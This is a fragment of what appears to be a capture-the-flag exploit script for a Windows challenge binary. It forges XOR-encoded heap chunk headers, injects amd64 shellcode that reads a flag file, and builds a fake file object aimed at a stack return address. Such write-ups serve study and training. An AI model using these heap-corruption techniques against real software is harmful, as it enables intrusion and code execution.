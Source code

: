 ```python
update('7', 0x10, '77')
update('8', 0x10, '88')

update('9', 0x100, '99')
update('9', 0x10, '99')
update('B', 0x10, 'BBBB')
delete('8')

update('7', 0x10, 'A' * 0x18 + p64(0x0000000309000009 ^ cookie) + p64(bin_base + 0x5630))
update('9', 0x10, 'A' * 0x18 + p64(0x1000000306010007 ^ cookie) + p64(heap+0xf40) + p64(0x10) + p64(0x3130) + '\x00' * 0x40 + p64(heap+0x860) + p64(0) + p64(0x1000000603010002 ^ cookie) + 'A' * 0x18 + p64(0x0000000306000107 ^ cookie) + p64(heap+0x150) + p64(bin_base + 0x5630))

update('A', 0x80, 'A' * 0x10 + p64(heap) + 'A' * 0x20 + p64(heap+0xd90))

fopen_s = bin_base + 0x31A8
filename = heap + 0xd90 + 0x50
file_handle = heap + 0x1200
mode_r = bin_base + 0x3314
flag = heap + 0x1280
write = bin_base + 0x31B8

fread = bin_base + 0x3208
sc = "\x90" * 0x20 + asm("""
    fopen_s :
        mov rdi,0x%x
        mov rdi,[rdi]
        mov rcx,0x%x
        mov rdx,0x%x
        mov r8, 0x%x
        call rdi
    fread:
        mov rdi,0x%x
        mov rdi,[rdi]
        mov rcx,0x%x
        mov edx,0x100
        mov r8d,1
        mov r9, 0x%x
        mov r9, [r9]
        call rdi
    write:
        mov rdi,0x%x
        mov rdi,[rdi]
        mov rcx,1
        mov rdx,0x%x
        mov r8,0x60
        call rdi
    """ % (fopen_s,file_handle,filename,mode_r,
           fread,flag,file_handle,
           write,flag), arch="amd64")
sc += "\xeb\xfe"

context.log_level = 'debug'
cnt = 0
flag = 0x2049
fd = 0
pad = 0
bufsize = 0x800
ptr = stack_ret
base = ptr
obj = p64(ptr) + p64(base) + p32(cnt) + p32(flag) + p32(fd) + p32(pad) + p64(bufsize) + p64(0)
obj += p64(0xffffffffffffffff) + p32(0xffffffff) + p32(0) + p64(0)*2
filename = 'C:\\dadadb\\flag.txt'.ljust(0x20, '\x00')
```